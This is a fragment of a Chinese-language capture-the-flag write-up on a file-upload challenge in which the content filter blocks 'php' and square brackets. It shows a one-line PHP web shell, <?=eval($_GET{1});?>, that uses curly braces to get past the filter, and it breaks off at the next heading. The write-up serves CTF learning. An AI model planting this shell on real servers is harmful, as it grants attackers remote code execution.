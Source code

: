 ```php
    		$ret = array("code"=>2,"msg"=>"文件类型不合规");
    	}
```

## web 156 内容检测

这次还是内容检测。过滤了'php'字符串,'[]'中括号等。学到了新方法。原来还能用花括号

![花花](/medias/show-upload/9.png)

```php
<?=eval($_GET{1});?>
```

![花花](/medias/show-upload/10.png)

又get到了

## web 157 内容检测
